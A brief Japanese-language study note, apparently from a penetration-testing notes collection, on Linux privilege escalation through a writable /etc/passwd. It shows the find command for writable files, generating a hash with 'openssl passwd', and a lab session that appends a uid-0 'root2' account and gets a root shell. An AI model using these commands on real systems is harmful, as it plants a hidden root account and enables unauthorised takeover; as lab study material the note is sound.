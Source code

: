 # /etc/passwd 

/etc/passwdのユーザーレコードの2列目にパスワードハッシュが存在する場合、それは認証に有効とみなされ、/etc/shadowのそれぞれのエントリーがある場合はそちらに優先される

* opensslとpasswdの引数の助けを借りて、パスワードハッシュを生成する。デフォルトでは、他のオプションが指定されていない場合、opensslはLinux認証でサポートされているハッシュ・メカニズムであるcryptアルゴリズム1を使ってハッシュを生成する

  ```
  find / -writable -type f 2>/dev/null
  ```
  
  のコマンドで/etc/passwdが編集できる前提
  
  ```bash
  openssl passwd evil
  fRCncW12oa0wk
  ```
  
  ```bash
  student@debian:/var/scripts$ echo "root2:fRCncW12oa0wk:0:0:root:/root:/bin/bash" >> /etc/passwd
  student@debian:/var/scripts$ su root2
  Password: 
  root@debian:/var/scripts# id
  uid=0(root) gid=0(root) groups=0(root)
  ```
  
  
